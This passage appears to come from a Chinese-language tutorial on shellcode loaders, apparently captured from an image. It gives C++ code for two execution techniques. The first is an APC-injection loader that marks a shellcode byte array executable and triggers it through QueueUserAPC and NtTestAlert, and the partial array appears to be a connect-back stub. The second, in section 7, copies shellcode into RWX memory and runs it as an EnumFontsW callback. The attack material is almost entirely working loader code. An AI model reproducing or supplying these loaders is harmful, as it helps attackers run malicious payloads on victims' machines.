 ```cpp
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

void ApcLoader() {
    // 修改 shellcode 所在内存区域的保护属性，允许执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    /*
    获取NtTestAlert函数地址, 因为它是一个内部函数.无法直接通过函数名调用
    这个函数用于检查当前线程的 APC（Asynchronous Procedure Call，异步过程调用）队列，如
    果队列中有挂起的用户模式 APC 请求，NtTestAlert 将触发它们的执行
    */
    pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));

    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    QueueUserAPC((PAPCFUNC)(PTHREAD_START_ROUTINE)(LPVOID)shellcode, GetCurrentThread(), NULL);

    //调用NtTestAlert，触发 APC 队列中的任务执行（即执行 shellcode）
    NtTestAlert();
}


void main() {
    ApcLoader();
}
```



# 7.基于回调函数

这段代码的关键在于它使用 `EnumFontsW` 函数的回调机制来执行 shellcode。当 `EnumFontsW` 函数遍历到一个字体时，它将调用 shellcode 作为回调函数来处理字体信息。由于回调函数直接指向 shellcode，这样可以间接地加载并执行 shellcode

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));

    /*
    * EnumFontsW是Windows API，用于枚举系统中所有可用字体
    * 参数1：设备环境句柄，表示要枚举哪个设备的字体
    * 参数2：NULL表示枚举所有字体
    * 参数3：回调函数指针，用于处理每个枚举到的字体信息
    * 参数4：回调函数参数
    */
    EnumFontsW(GetDC(NULL), NULL, (FONTENUMPROCW)p, NULL); //回调函数

}

int main() {
    CallBack();
}
```